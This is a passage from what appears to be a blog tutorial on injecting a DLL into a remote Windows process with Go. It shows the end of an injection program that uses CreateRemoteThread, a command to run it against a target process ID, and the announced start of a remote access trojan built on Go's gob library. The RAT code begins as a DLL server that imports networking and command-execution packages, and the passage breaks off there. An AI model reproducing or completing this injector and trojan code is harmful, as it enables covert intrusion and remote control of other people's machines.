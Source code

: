 ```go  
		0,
	)
	if err != nil {
		fmt.Println("Results of createRemoteThread:", err)
	}
	fmt.Println(crt1)
	fmt.Println(crt2)

	// This will keep the golang script alive... if thats what you want.
	// wfso, err := syscall.WaitForSingleObject(syscall.Handle(crt1), syscall.INFINITE)
	// if err != nil {
	// 	fmt.Println("Results of WaitForSingleObject", err)
	// }
	// fmt.Println(wfso)

	fmt.Println("\n--- Additional Logging ---")
	fmt.Println("targetDll:", targetDll)
	fmt.Println("dllLength:", dllLength)
	fmt.Println("dllPtr:", dllPtr)
}
```  

## Let's Go!!!  

```  
go run ./example-3.go <pid>
```  

![](/go-remote-dll-process-injection/example-3-success.png)  

## Sweet! We have consistent results.  

## Ok Tim, thats kewl and all, we can make skript cats appear on the screen, but what about something useful, like a simple gob rat POC.  

**gob is a GoLang library to send encrypted data over tcp/ip, its not amazingly well known and has tremendous potential...**  

## First order of business is our DLL. This time, we're going to write the dll in GoLang.  

- gob-server.go  

```go  
// Server

package main

import (
	"C"
	"encoding/gob" // Package for encoding and decoding data
	"fmt"          // Package for formatted I/O
	"net"          // Package for network operations
	"os/exec"      // Package for executing commands
	"strings"      // Package for string operations
)

// Message represents the structure of the message received from the client
type Message struct {
	Content string // Command field holds the command to be executed
}

```